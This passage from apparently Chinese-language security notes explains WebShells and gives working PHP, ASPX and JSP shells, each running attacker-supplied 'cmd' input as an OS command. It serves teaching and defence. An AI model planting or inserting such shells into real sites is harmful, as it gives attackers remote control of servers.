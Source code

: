 
### 3.2 WebShell
- **定义**  
  WebShell 是一种运行在 Web 服务器上的恶意脚本文件，攻击者通过浏览器远程操作服务器。  

- **常见形式**  
  - **一句话木马（PHP）**  
    
    ```php
    <?php @eval($_POST['cmd']); ?>
    ```
    - 攻击者通过 POST 请求传递命令，服务器执行并返回结果。  
    
  - **ASP/ASPX WebShell**（适用于 Windows IIS）。  
  
    ```c#
    <%@ Page Language="C#" %>
    <%
        System.Diagnostics.Process proc = new System.Diagnostics.Process();
        proc.StartInfo.FileName = "cmd.exe";
        proc.StartInfo.Arguments = "/c " + Request["cmd"];
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
        string output = proc.StandardOutput.ReadToEnd();
        Response.Write(output);
    %>
    ```
  
    - 说明：攻击者访问 `http://target.com/shell.aspx?cmd=whoami`，服务器执行命令并返回结果。
  
  - **JSP WebShell**（适用于 Java Web 应用）。  
  
    ```jsp
    <%
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            String output = "";
            try{
                Process p = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader reader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(p.getInputStream())
                );
                String line;
                while((line = reader.readLine()) != null){
                    output += line + "\n";
                }
            }catch(Exception e){
                output = e.toString();
            }
            out.println(output);
        }
    %>
    ```
  
